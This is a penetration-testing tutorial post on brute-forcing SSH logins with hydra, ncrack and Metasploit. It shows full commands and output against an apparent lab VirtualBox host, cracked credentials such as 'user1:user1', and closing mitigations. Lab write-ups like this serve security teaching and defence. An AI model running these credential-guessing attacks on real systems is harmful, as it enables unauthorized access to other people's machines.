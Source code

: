 ```yaml
---
title: SSH Pentesting -> Bruteforce
date: 2022-06-03 05:49:33 +0800
categories: [Infrastructure Pentesting, SSH]
tags: [infrastructure, pentesting, services, ssh, bruteforce]     # TAG names should always be lowercase
---
```


# Bruteforce: *mitre -> T1110*
***Bruteforce*** Is a technigue that make use of trial-and-error to guess login credentials.

# Tools

These are some of the tools that are used to bruteforce ssh credentials.

- hydra
- ncrack
- metasploit

## hydra

[Hydra](https://www.kali.org/tools/hydra/) is a parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible, and new modules are easy to add.

Syntax
> hydra -L [userfile] -P [password_file] ssh://[target_ip]

```bash
┌──(cyberkhalid㉿kali)-[~/pentest]
└─$ hydra -L user.txt -P pass.txt ssh://192.168.43.234
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-06-05 20:20:36
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 96 login tries (l:8/p:12), ~6 tries per task
[DATA] attacking ssh://192.168.43.234:22/
[22][ssh] host: 192.168.43.234   login: 'user1'   password: 'user1'
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-06-05 20:20:59	
```
## Ncrack

[Ncrack](https://www.kali.org/tools/ncrack/) Is a high-speed network authentication cracking tool. It was built to help companies secure their networks by proactively testing all their hosts and networking devices for poor passwords.

syntax 
> ncrack -U [userfile] -P [password_file] ssh://[target]

```bash
┌──(cyberkhalid㉿kali)-[~/pentest]
└─$ ncrack -U user.txt -P pass.txt ssh://192.168.43.234

Starting Ncrack 0.7 ( http://ncrack.org ) at 2022-06-05 20:29 EDT

Discovered credentials for ssh on 192.168.43.234 22/tcp:
192.168.43.234 22/tcp ssh: 'user1' 'user1'

Ncrack done: 1 service scanned in 21.01 seconds.
```

## Metasploit

[Metasploit](https://www.kali.org/tools/metasploit-framework/) Is an open source platform that supports vulnerability research, exploit development, and the creation of custom security tools.

```bash
msf6 auxiliary(scanner/ssh/ssh_login) > options

Module options (auxiliary/scanner/ssh/ssh_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   RHOSTS                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           false            yes       Whether to print output for all attempts

msf6 auxiliary(scanner/ssh/ssh_login) > set rhosts 192.168.43.234
rhost => 192.168.43.234
msf6 auxiliary(scanner/ssh/ssh_login) > set user_file /home/cyberkhalid/pentest/user.txt
user_file => /home/cyberkhalid/pentest/user.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set pass_file /home/cyberkhalid/pentest/pass.txt
pass_file => /home/cyberkhalid/pentest/pass.txt
msf6 auxiliary(scanner/ssh/ssh_login) > exploit

[*] 192.168.43.234:22 - Starting bruteforce
[+] 192.168.43.234:22 - Success: 'user1:user1' 'uid=1000(user1) gid=1000(user1) groups=1000(user1),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),134(sambashare) Linux user1-VirtualBox 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 2 opened (192.168.43.1:41713 -> 192.168.43.234:22) at 2022-06-05 20:40:02 -0400

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
	
```
## Using private keys

```bash
msf6 auxiliary(scanner/ssh/ssh_login_pubkey) > options                                                                                                                
                                                                                                                                                                      
Module options (auxiliary/scanner/ssh/ssh_login_pubkey):                                                                                                              
                                                                                                                                                                      
   Name              Current Setting               Required  Description                                                                                              
   ----              ---------------               --------  -----------                                                                                              
   BRUTEFORCE_SPEED  5                             yes       How fast to bruteforce, from 0 to 5                                                                      
   DB_ALL_USERS      false                         no        Add all users in the current database to the list                                                        
   KEY_PASS                                        no        Passphrase for SSH private key(s)                                                                        
   KEY_PATH                                        no        Filename or directory of cleartext private keys. Filenames beginning with a dot, or ending in ".pub" wi  
                                                             ll be skipped. Duplicate private keys will be ignored.                                                   
   PRIVATE_KEY       /home/cyberkhalid/pentest/id  no        The string value of the private key that will be used. If you are using MSFConsole, this value should b  
                                                             e set as file:PRIVATE_KEY_PATH. OpenSSH, RSA, DSA, and ECDSA private keys are supported.                 
   RHOSTS            192.168.43.234                yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit             
   RPORT             22                            yes       The target port                                                                                          
   STOP_ON_SUCCESS   false                         yes       Stop guessing when a credential works for a host                                                         
   THREADS           1                             yes       The number of concurrent threads (max one per host)                                                      
   USERNAME          user1                         no        A specific username to authenticate as                                                                   
   USER_FILE                                       no        File containing usernames, one per line                                                                  
   VERBOSE           true                          yes       Whether to print output for all attempts                                                                 
                                                                                                                                                                                                                                                                                                 
msf6 auxiliary(scanner/ssh/ssh_login_pubkey) > set key_path /home/cyberkhalid/pentest/id                                                                              
key_path => /home/cyberkhalid/pentest/id                                                                                                                              
msf6 auxiliary(scanner/ssh/ssh_login_pubkey) > set key_pass Passsword@123                                                                                             
key_pass => Passsword@123                                                                                                                                                
msf6 auxiliary(scanner/ssh/ssh_login_pubkey) > exploit                                                                                                                
                                                                                                                                                                      
[*] 192.168.43.234:22 SSH - Testing Cleartext Keys                                                                                                                    
[*] 192.168.43.234:22 - Testing 1 key from /home/cyberkhalid/pentest/id                                                                                               
[+] 192.168.43.234:22 - Success: 'user1:-----BEGIN RSA PRIVATE KEY----- 
```
# Mitigations

- Enforce password policies.
- Set account lockout policies after a certain number of failed login attempts to prevent passwords from being guessed.
- Use multi-factor authentication.

# References

- [https://attack.mitre.org/techniques/T1110/](https://attack.mitre.org/techniques/T1110/)
- [https://www.kali.org/tools/hydra/](https://www.kali.org/tools/hydra/)
- [https://www.kali.org/tools/ncrack/](https://www.kali.org/tools/ncrack/)
- [https://www.kali.org/tools/metasploit-framework/](https://www.kali.org/tools/metasploit-framework/)
- [https://attack.mitre.org/mitigations/M1027/](https://attack.mitre.org/mitigations/M1027/)
- [https://attack.mitre.org/mitigations/M1032/](https://attack.mitre.org/mitigations/M1032/)
- [https://attack.mitre.org/mitigations/M1036/](https://attack.mitre.org/mitigations/M1036/)

